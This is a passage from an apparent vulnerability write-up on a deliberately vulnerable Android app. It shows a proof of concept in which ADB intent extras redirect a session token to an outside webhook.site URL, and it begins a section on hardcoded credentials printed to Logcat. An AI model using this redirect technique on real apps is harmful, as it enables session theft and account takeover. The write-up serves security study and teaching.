 The application grabs the `EXTRA_REDIRECT_URL` from the incoming intent, appends the session token to it without any validation, and launches a browser tab.

### Proof of Concept (PoC)

An attacker can trigger this vulnerability from a malicious app or via ADB:

**ADB Command:**

- Set Intent Action → `android.intent.action.VIEW`
- Set Data URI → `bugbazaar://externalAuthentication`
- Set Extra Key → `ExternalAuthLoginActivity.EXTRA_REDIRECT_URL` with your webhook URL

![adb invoke](image-5.png)

This command launches the vulnerable activity, passing an attacker-controlled URL. A browser tab will open to:

https://webhook.site/1995d369-8d24-4095-9be1-8513cd83f0ca?_sid_=eyJhbGciOi...

![ACCOUNT_TAKEOVER](image-1.png)

The session token is successfully exfiltrated.

---



## Hardcoded Credentials & Information Leak via Logs

### TL;DR

The application stores hardcoded credentials using a weak XOR obfuscation. To make matters worse, it deobfuscates and prints the plaintext username and password directly to `Logcat`, making them trivial to steal.
